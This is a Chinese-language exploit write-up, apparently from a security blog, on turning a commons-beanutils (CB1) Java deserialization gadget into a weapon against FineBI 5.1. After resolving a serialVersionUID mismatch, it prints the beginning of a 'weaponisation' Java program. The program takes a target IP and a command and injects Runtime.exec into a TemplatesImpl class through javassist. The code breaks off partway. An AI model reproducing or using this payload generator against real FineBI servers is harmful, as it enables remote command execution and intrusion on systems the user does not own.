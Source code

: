 ## 排查报错

报错如下

```
java.io.InvalidClassException: org.apache.commons.beanutils.BeanComparator; local class incompatible: stream classdesc serialVersionUID = -2044202215314119608, local class serialVersionUID = -3490850999041592962
```

在这里 Payload 应该是没有问题了，问题应该是在 CB 的版本上，但是为了确认是不是这个原因，先把依赖的 fine-bi-engine-third-5.1.jar 使用压缩文件删除掉了内置的 CB，然后导入新的对应 YSO 的 commons-beanutils-1.9.2.jar。运行之后弹出计算器，目前证明 Payload 是没有问题的。

![image-20230427183016302](https://laughing-markdown-pics.oss-cn-shenzhen.aliyuncs.com/image-20230427183016302.png)

# 武器化

使用 p牛 的简化的 CB1 代码构造一个 Payload 之前，目前的思路就是把 YSO 生成的 Payload 使用的 jar 换成 FineBI5.1 的fine-bi-engine-third-5.1.jar，重新生成 Payload 即可。

![image-20230428101800641](https://laughing-markdown-pics.oss-cn-shenzhen.aliyuncs.com/image-20230428101800641.png)

同样的，fine-bi-engine-third-5.1.jar 的 CB1 是没有问题的。

武器化代码：

**CommonsBeanutils1.java**

```java
import java.io.*;
import java.lang.reflect.Field;
import java.net.HttpURLConnection;
import java.net.URL;
import java.util.Base64;
import java.util.PriorityQueue;
import java.util.zip.GZIPOutputStream;

import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import javassist.ClassPool;
import javassist.CtClass;
import org.apache.commons.beanutils.BeanComparator;

public class CommonsBeanutils1 {
    public static void setFieldValue(Object obj, String fieldName, Object value) throws Exception {
        Field field = obj.getClass().getDeclaredField(fieldName);
        field.setAccessible(true);
        field.set(obj, value);
    }

    public static void main(String[] args) throws Exception {
        // init parameters
        String[] params = processCommandArgs(args);
        String targetIP = params[0];
        String cmd = params[1];
        System.out.println("[+] Target IP: " + targetIP);
        System.out.println("[+] Command: " + cmd);

        TemplatesImpl obj = new TemplatesImpl();

        // 类的静态初始化器中插入一段 Runtime 代码，以在运行时执行指定的命令
        String exec_cmd = "java.lang.Runtime.getRuntime().exec(\"" +
                cmd.replace("\\", "\\\\").replace("\"", "\\\"") +
                "\");";
        final CtClass clazz = ClassPool.getDefault().get(evil.EvilTemplatesImpl.class.getName());
```
